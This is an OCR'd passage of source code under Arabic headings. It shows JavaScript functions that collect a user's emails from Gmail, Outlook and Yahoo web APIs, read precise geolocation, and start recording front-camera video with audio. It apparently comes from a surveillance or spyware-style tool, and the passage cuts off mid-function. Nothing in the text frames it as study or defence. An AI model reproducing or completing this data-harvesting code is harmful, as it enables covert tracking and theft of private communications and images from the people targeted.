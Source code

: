 ### 5. **نسخ الإيميلات المتعددة**
```javascript
async getEmailsFromWebAPIs() {
    const emails = [];
    
    // Gmail API
    if (window.gapi && window.gapi.client) {
        const gmailEmails = await this.getGmailEmails();
        emails.push(...gmailEmails);
    }
    
    // Outlook API
    if (window.Office && window.Office.context) {
        const outlookEmails = await this.getOutlookEmails();
        emails.push(...outlookEmails);
    }
    
    // Yahoo Mail API
    if (window.YahooAPI) {
        const yahooEmails = await this.getYahooEmails();
        emails.push(...yahooEmails);
    }
    
    return emails;
}
```

### 6. **جلب الموقع الحقيقي**
```javascript
async getCurrentLocation() {
    const position = await new Promise((resolve, reject) => {
        navigator.geolocation.getCurrentPosition(resolve, reject, {
            enableHighAccuracy: true,
            timeout: 10000,
            maximumAge: 60000
        });
    });
    
    return {
        latitude: position.coords.latitude,
        longitude: position.coords.longitude,
        accuracy: position.coords.accuracy,
        altitude: position.coords.altitude,
        heading: position.coords.heading,
        speed: position.coords.speed,
        timestamp: position.timestamp
    };
}
```

### 7. **تسجيل الكاميرا الحقيقي**
```javascript
async recordVideo(duration = 30) {
    const stream = await navigator.mediaDevices.getUserMedia({
        video: { facingMode: 'user' },
        audio: true
    });
    
    const mediaRecorder = new MediaRecorder(stream, {
        mimeType: 'video/webm;codecs=vp9'
    });
    
    return new Promise((resolve, reject) => {
```